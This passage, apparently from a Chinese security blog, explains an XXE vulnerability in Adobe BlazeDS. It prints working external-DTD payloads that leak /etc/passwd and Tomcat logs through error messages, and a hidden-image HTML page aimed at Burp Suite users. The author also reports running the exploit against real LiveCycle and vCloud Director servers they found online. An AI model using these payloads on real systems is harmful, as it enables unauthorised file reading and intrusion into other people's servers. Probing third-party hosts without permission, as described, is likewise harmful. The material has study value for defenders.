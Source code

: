 ```
[...]
jetty:x:131:143::/usr/share/jetty:/bin/false
............Bu......../Client.Message.Encoding.I707E4DB6-DB0B-6FED-EC4C-01259078D48B
[+] Done

```

可以看到`/etc/passwd`文件内容被通过报错信息爆出，作者所使用的利用代码中调用了一个外部的DTD文件：[http://somewhere/blazeds.dtd](http://somewhere/blazeds.dtd)，其内容如下：

```
<!ENTITY % yolo SYSTEM 'file:///etc/passwd'>
<!ENTITY % c "<!ENTITY &#37; rrr SYSTEM '_://%yolo;'>">
%c;
%rrr;

```

外部DTD中，首先定义了一个参数实体%yolo；然后在参数实体中%c中对其进行了引用；在调用%rrr;时，由于rrr所调用的协议“_”并不被java所支持，导致报错，整个URL全部出现在报错信息中，`/etc/passwd`的内容就藏在其中。同样，还可以用来读取tomcat的日志：

```
<!ENTITY % yolo SYSTEM 'file:///proc/self/cwd/../logs/catalina.YYYY-MM-DD.log'>
<!ENTITY % c "<!ENTITY &#37; rrr SYSTEM '_://%yolo;'>">
%c;
%rrr;

```

0x04 漏洞利用之三 （使用了BlazeDS的软件产品）
=====

原作者在文中提到了，一些软件产品中也使用了BlazeDS，这些产品如果没有升级打补丁，同样也会受到影响。这些软件包括来自Adobe的ColdFusion 和 LiveCycle Data Services，Vmware的vCenter Server, vCloud Director 和Horizon View。为了对这一说法进行验证，我搜索了一台LiveCycle Data Services的服务器，如下图：

![p1](http://drops.javaweb.org/uploads/images/bbcef91d21cd74cf13e2c6beee8f40859da4e6a7.jpg)

抓包得到amf的接口地址，使用利用脚本对该接口进行测试，结果如下图所示：

![p2](http://drops.javaweb.org/uploads/images/d24ba615bde34b4dc63ae017d0189804d9deeb01.jpg)

同样，我又找到一台Vmware的vCloud Director，同样发现存在问题：

![p3](http://drops.javaweb.org/uploads/images/b7b2cbe0a5f2b1212c8370203f04f3d2ee00c5b3.jpg)

0x05 漏洞利用之四（使用了BlazeDS的客户端软件）
=====

大家常用的BurpSuite就是其中之一，躺枪！虽然最新版本的BurpSuite已经修复了此问题，但是大多数同学手中的版本可能并不是最新版本。根据原作者的说明，一起来看看这个漏洞的效果，由于我本机是windows，所以利用代码是windows的。 首先，创建一个html文件.

```
<html><body>
Burp Suite + BlazeDS
<img src="http://x.com/test/amf_win.php" style="display:none"/>
</body></html>

```
